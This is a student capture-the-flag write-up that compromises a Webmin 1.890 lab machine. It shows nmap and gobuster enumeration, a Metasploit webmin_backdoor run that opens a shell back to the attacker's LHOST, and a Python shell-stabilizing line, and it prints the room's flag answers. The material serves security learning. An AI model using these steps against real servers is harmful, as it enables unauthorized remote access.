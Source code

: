 ```yaml
---
Title: SWS101 CTF 
Categories: [SWS101, CTFJournal4]
Tags: [SWS101]
---
```


### Topic: source

### Objective 
The initial objective of Task 1 Embark is to list as well as establish administrative privileges in the connected virtual machine. It entails the ability to first, determine the root course of a malfunction and then to exploit it so one can regain control of the system. 
 
Environment and Tools 
The VM used in this task is located in the AttackerKB room, and the OVA file for offline use can be downloaded from the resource of darkstar7471. 
 
Steps and Methodology 
 1. Initial Enumeration with Nmap 
 This is the first step and involves using Nmap, a tool that is used in the scanning of the target machine with an aim of identifying the open ports. 

 Nmap Command:
 nmap -sV <10.10.5.43>

 Output
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)

 Accessing Port 10000 
 Since, we do not have the credentials for SSH (port 22) then we proceed to search for port 10000 which is running Webmin. 
 
 Accessing Webmin: 
 
 URL: https://<10.10.5.43>:10000 

 First connection will open a warning that you are connecting to a non secure site. Continue by going to advanced and then to the site. 
 3. The next is Directory Brute Force with Gobuster 
 Searching for other directories or files, we use Gobuster on port 10000. 

 Gobuster Command:
gobuster dir -u https://<ip-address>:10000 -w /usr/share/wordlists/dirb/common.txt -k

output
/unauthenticated

 
 Vulnerability Scanning with Metasploit 
 
 To detect the weakness, exploitation is carried out using Metasploit against Webmin targets. 

 Metasploit Commands:
msfconsole
use exploit/linux/http/webmin_backdoor
set RHOSTS <ip-address>
set LHOST <your-ip-address>
set SSL true
run

 
 The vulnerability for Webmin namely exploit/linux/http/webmin_backdoor does not involve authorization and enables us to get a shell. 
 
 5. Gaining a Stable Shell 
 
 The first shell that may be launched from Metasploit can be pretty unstable. Using python, we stabilize it, Thank you 
 Command to stabilize shell:
 python3 -c 'import pty; pty.spawn("/bin/bash")'


 6. Finding Flags 
 
 Having the root access we can search for the user and root flags and read them. 
 
 User Flag: 
 Path: /home/dark/user. txt 
 
 Content: THM{SUPPLY_CHAIN_COMPROMISE} 
 
 Root Flag: 
 
 Path: /root/root. txt 
 
 Content: THM{UPDATE_YOUR_INSTALL} 
 
 
